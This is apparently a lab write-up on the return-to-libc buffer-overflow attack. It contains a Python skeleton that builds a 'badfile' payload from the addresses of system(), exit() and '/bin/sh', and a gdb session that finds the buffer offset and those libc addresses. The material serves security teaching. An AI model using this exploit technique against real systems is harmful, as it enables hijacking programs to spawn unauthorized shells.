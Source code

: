 In the return-to-libc attack, we need to place the argument (i.e., the address of the "<code>/bin/sh</code>" string) on the stack before the vulnerable function jumps to the <code>system()</code> function by means of overflowing the target buffer. According to the [Linux manual page](https://man7.org/linux/man-pages/man3/system.3.html), the <code>system(ARG)</code> function first <code>fork()</code> a child process and then executes the command specified by <code>ARG</code> using <code>execl()</code> within that children. The arguments of the <code>execl()</code> function is a list of pointers to NULL-terminated character strings.

The <code>exploit.py</code> program file is provided to help us create the content of <code>badfile</code>:

```python
#!/usr/bin/env python3
import sys

# Fill content with non-zero values
content = bytearray(0xaa for i in range(300))

X = 0
sh_addr = 0x00000000        # The address of "/bin/sh"
content[X:X+4] = (sh_addr).to_bytes(4, byteorder='little')

Y = 0
system_addr = 0x00000000    # The address of system()
content[Y:Y+4] = (system_addr).to_bytes(4, byteorder='little')

Z = 0
exit_addr = 0x00000000      # The address of exit()
content[Z:Z+4] = (exit_addr).to_bytes(4, byteorder='little')

# Save content to a file
with open("badfile", "wb") as f:
  f.write(content)
```

To figure out the three addresses and the values for <code>X</code>, <code>Y</code>, and <code>Z</code>, we can debug the <code>retlib.c</code> program and calculate the distance between <code>%ebp</code> and <code>buffer</code> inside the function <code>bof()</code>:

```console
$ gcc -m32 -fno-stack-protector -z noexecstack -g -o retlib_dbg retlib.c
$ touch badfile
$ gdb -q retlib_dbg
...
gdb-peda$ break bof
Breakpoint 1 at 0x126d: file retlib.c, line 10.
gdb-peda$ run
...
gdb-peda$ next
...
gdb-peda$ p $ebp
$1 = (void *) 0xffffd1b8
gdb-peda$ p &buffer
$2 = (char (*)[12]) 0xffffd1a0
gdb-peda$ p/d 0xffffd1b8 - 0xffffd1a0
$3 = 24
gdb-peda$ p &system
$4 = (<text variable, no debug info> *) 0xf7e08420 <system>
gdb-peda$ p &exit
$5 = (<text variable, no debug info> *) 0xf7dfaf80 <exit>
gdb-peda$ find /bin/sh
Searching for '/bin/sh' in: None ranges
Found 2 results, display max 2 items:
   libc : 0xf7f52352 ("/bin/sh")
[stack] : 0xffffd7fc ("/bin/sh")
gdb-peda$ quit
```